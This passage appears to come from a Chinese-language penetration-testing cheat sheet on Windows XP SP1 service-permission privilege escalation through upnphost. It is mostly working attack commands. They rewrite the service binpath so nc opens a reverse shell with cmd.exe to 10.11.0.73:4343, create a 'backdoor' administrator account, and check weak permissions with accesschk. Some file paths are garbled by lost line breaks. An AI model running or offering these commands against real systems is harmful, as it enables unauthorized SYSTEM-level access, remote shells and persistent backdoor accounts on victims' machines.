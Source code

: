 ### 示例与Windows XP SP1 - upnphost

```powershell
# 注意：此漏洞利用需要空格！
sc config upnphost binpath= "C:\Inetpub\wwwroot
c.exe 10.11.0.73 4343 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
sc config upnphost depend= ""
net start upnphost
```

如果由于缺少依赖项而失败，请尝试以下命令。

```powershell
sc config SSDPSRV start=auto
net start SSDPSRV
net stop upnphost
net start upnphost

sc config upnphost depend=""
```

使用Sysinternals的[`accesschk`](https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exe)或[accesschk-XP.exe - github.com/phackt](https://github.com/phackt/pentest/blob/master/privesc/windows/accesschk-XP.exe)

```powershell
$ accesschk.exe -uwcqv "Authenticated Users" * /accepteula
RW SSDPSRV
        SERVICE_ALL_ACCESS
RW upnphost
        SERVICE_ALL_ACCESS

$ accesschk.exe -ucqv upnphost
upnphost
  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\Authenticated Users
        SERVICE_ALL_ACCESS
  RW BUILTIN\Power Users
        SERVICE_ALL_ACCESS

$ sc config <vuln-service> binpath="net user backdoor backdoor123 /add"
$ sc config <vuln-service> binpath= "C:
c.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
$ sc stop <vuln-service>
$ sc start <vuln-service>
$ sc config <vuln-service> binpath="net localgroup Administrators backdoor /add"
$ sc stop <vuln-service>
$ sc start <vuln-service>
```

